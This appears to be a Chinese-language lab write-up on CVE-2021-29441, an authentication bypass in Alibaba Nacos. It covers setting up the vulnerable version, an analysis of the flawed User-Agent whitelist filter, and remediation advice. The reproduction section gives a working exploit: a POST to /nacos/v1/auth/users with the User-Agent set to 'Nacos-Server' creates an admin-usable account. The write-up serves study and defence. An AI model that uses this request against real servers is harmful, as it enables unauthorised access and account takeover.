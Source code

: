 ```yaml
---
title: 【Nacos】CVE-2021-29441 Nacos 权限认证绕过漏洞
date: 2025-08-28
categories:
  - 红队
  - Web攻防
  - 靶场
image: images/15.webp
---
```

# 1. 漏洞概述
2020年12月29日，Nacos官⽅在github发布的issue中披露Alibaba Nacos 存在⼀个由于不当处理User-Agent导致的未授权访问漏洞 。通过该漏洞，攻击者可以进⾏任意操作，包括**创建新⽤户**并进⾏登录后操作。
# 2. 影响版本
**Nacos <= 2.0.0-ALPHA.1**
# 3. 环境搭建
**Nacos下载地址(github):**
```
https: github.com/alibaba/nacos/releases/tag/2.0.0-ALPHA.1
```
Windows搭建：
1. 进入github下载地址后下载版本：
```
nacos-server-2.0.0-ALPHA.1.zip
```
2. 解压出来后进入bin目录：
```
D:\TargetDrone\nacos-server-2.0.0-ALPHA.1\nacos-server-2.0.0-ALPHA.1\nacos\bin
```
3. 输入在当前文件夹下使用打开cmd窗口，输入命令：
```
.\startup.cmd -m standalone
```
4. 然后访问网站：
```
http://192.168.31.134:8848/nacos/
192.168.31.134：自己的内网IP地址
```
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250704214003.png)
 5. 默认账号密码
```
 nacos/nacos
```
即可。
# 4. 漏洞复现
1. 漏洞路径
```
http: your-ip:8848/nacos/v1/auth/users?pageNo=1&pageSize=1
```
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250704214308.png)
2. 虽然有password了, 但是是加盐过的,解密不了，从上图可以发现，⽬前有⼀个⽤户nacos 漏洞利⽤，访问
```
http: your-ip:8848/nacos/v1/auth/users
```
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250704214433.png)
PSOT传参：
```
username=test1&password=test1
```
 UA 头：
```
 Nacos-Server 
```
发送POST请求，返回码200，创建⽤户成功~！
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250705124923.png)
返回Nacos登录界面：
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250705125222.png)

使用账号/密码：
```
test1/test1
```
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250705125331.png)
关闭环境：
```
./shutdown.sh
```
# 5. 漏洞分析
Nacos-Server是⽤来进⾏服务间的通信的⽩名单。⽐如服务A要访问服务B，如何知道服务A是服务，只需要在服务A访问服务B的时候UA上写成 Nacos-Server 即可。
正因为这样，所以当我们**UA恶意改为Nacos-Server的时候**，就会被误以为是服务间的通信，因此在⽩名单当中，绕过的认证。
这⾥⽤的是nacos-2.0.0-ALPHA.1的代码进⾏分析
关键代码在该⽂件下:
```
/nacos-2.0.0-ALPHA.1/naming/src/main/java/com/alibaba/nacos/naming/web/TrafficRevise
Filter.java
```
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250705125530.png)
TrafficReviseFilter继承了Filter⽤来处理请求，⽽⾥⾯的doFilter的就很明确了。注释中写道，当接收到其他节点服务的请求时应该被通过，如何验证是其他服务。
就是很简单的⼀个对于UA的⼀个判断逻辑
这个Constants.NACOS_SERVER_HEADER跟踪⼀下，正是Nacos-Server 经过这⼀层的验证，那么则进⼊到filterChain 过滤器链中的下⼀个filter过滤器，继续接下来的请求。
# 6. 漏洞修复
若业务环境允许，使⽤⽩名单限制相关web项⽬的访问来降低⻛险。 官⽅已发布最新安全版本，请及时下载升级⾄安全版本。